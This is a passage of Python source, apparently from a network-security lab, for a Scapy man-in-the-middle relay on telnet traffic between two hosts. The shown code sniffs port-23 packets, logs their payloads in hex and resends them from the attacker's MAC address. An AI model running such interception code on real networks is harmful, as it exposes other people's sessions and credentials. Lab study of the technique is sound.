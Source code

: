             elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
                print("<- Processing packet from B to A", end='')
                sys.stdout.flush()
                # Create new packet based on the captured one (no payload change)
                newpkt_ip = IP(bytes(pkt[IP]))
                del(newpkt_ip.chksum)
                if TCP in newpkt_ip:
                    del(newpkt_ip[TCP].chksum)

                # Remove old payload before potentially adding it back (ensures clean state)
                payload_data = None
                if TCP in newpkt_ip and Raw in newpkt_ip[TCP]:
                    payload_data = newpkt_ip[TCP].payload.load # Save payload
                    del(newpkt_ip[TCP].payload) # Delete payload layer

                # Reconstruct L3+ packet
                if payload_data:
                    print(f" | Forwarding data: {payload_data.hex()}", end='')
                    newpkt_L3 = newpkt_ip/payload_data
                else:
                    print(" | No TCP payload.", end='')
                    newpkt_L3 = newpkt_ip

                # Create L2 frame and send
                newpkt_L2 = Ether(src=MAC_M, dst=MAC_A) / newpkt_L3
                sendp(newpkt_L2, iface='eth0', verbose=False)
                print(" | Sent M -> A")
                sys.stdout.flush()

        except Exception as e:
            print(f"\nError processing packet: {e}")
            # pkt.show() # Uncomment for detailed packet info on error


    # Define the filter (more specific)
    f = f"tcp and port 23 and ((src host {IP_A} and dst host {IP_B}) or (src host {IP_B} and dst host {IP_A}))"
    print(f"Starting sniff on eth0 with filter: {f}")
    sys.stdout.flush()

    # Start sniffing
    pkt = sniff(iface="eth0", filter=f, prn=spoof_pkt, store=0)
